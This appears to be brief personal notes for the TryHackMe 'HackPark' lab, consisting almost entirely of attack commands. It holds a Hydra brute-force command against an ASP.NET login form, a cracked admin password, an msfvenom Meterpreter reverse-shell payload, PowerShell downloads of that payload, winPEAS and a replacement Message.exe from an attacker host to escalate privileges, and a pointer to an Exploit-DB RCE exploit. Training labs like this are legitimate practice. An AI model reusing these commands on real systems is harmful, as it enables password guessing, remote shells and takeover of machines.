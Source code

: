 # Hydra Bruiteforcing

hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.222.224 http-post-form "/Account/login.aspx:__VIEWSTATE=X%2Fz3Mlty62z5Y8aCAMiDaFe%2B9SKdcf9226N9xQ01mq8rP30ZJRq5G7EwUwzkz3n9rzEXVYmhE%2BBRVjtKpusOG%2BclmdkWeaN46I%2FnUYO4uzqLV1jka6wmsfIKFhEdwy3oeh7DlUj8VUnfKjmAAhl6QNzNfhdXj13D13LFPh9wtvnHyBjYmqMzxEvWAL1mwoNVWxVTCra5DFu1l1gLSNfWkrXLzo7bQdYCnhV2xxpLa1JgaLGsxDUS3h25czmU7g3MCciYGEAgFFxv%2FATyhDiIQBlHJ154WMYnL52cM7MR81pZZNgK32WdRwy%2FvA2wQvi6YrjkLrEZsiepbdoKvQHZ6qqyPxH0j6K9BI3%2FlKKiT2cfS1Nm&__EVENTVALIDATION=tbMSuN0fZZiffwoWR2502NvWLKSDwmGhtVGh9KB%2FIf6hdNVf9UjamY4uMbjjKFAInyLeK%2Fz5%2ByO1yrvO44pVUZTCisUdcMS2k59fRgxCJ9mU9waI%2BiHVLyhzWS22LViSMdGRUhHURt84Cg9MNCxXY172nJrVA5WtJ7PavxhpRlqV8Wi3&ctl00%24MainContent%24LoginUser%24UserName=admin&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:Login Failed"

admin:1qaz2wsx

Version : 3.3.6.0

Exploitdb Exploit : Directory Traversal / RCE

Netcat shell

msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.8.82.254 LPORT=8888 -f exe -o payload.exe

powershell -C "Invoke-WebRequest -Uri 'http://10.8.82.254:8000/payload.exe' -OutFile 'C:\Windows\Temp\payload.exe'"

# metaploit meterpreter session

powershell -C "Invoke-WebRequest -Uri 'http://10.8.82.254:8000/winPEAS.bat' -OutFile 'C:\Windows\Temp\winPEAS.bat'"

powershell -C "Invoke-WebRequest -Uri 'http://10.8.82.254:8000/Message.exe' -OutFile 'C:\Program Files (x86)\SystemScheduler\Message.exe'"

Walkthrough : https://www.secjuice.com/thm-hack-park/